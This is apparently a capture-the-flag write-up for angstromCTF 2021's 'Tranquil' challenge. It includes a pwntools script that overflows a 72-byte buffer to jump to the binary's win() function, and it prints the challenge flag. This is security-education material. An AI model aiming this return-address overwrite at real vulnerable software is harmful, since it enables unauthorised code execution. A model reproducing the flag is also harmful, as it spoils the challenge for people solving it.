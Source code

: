 # Tranquil

## Description

Finally, [inner peace](tranquil) - Master Oogway

[Source](tranquil.c)

Connect with `nc shell.actf.co 21830`, or find it on the shell server at `/problems/2021/tranquil`.

## Solution

First of all, Actf's platform gives even the source code and the binary file. 
Using gdb, we can discover win() function's address. (0x401196)

We just fill the offset starting from the buffer that the software fills necessary to reach the return address. Then, we swap the address with the function's one. 
That's it.
By executing the function, the software gives us the flag.

```python
from pwn import *
import sys
import struct
import os

context.arch = 'amd64'

host = "shell.actf.co"
port = 21830
conn = remote(host, port)

win = 0x401196

payload = b"A" * 72
payload += struct.pack("L", win)
conn.sendline(payload)
conn.interactive()
```


#### **FLAG >>** `actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`
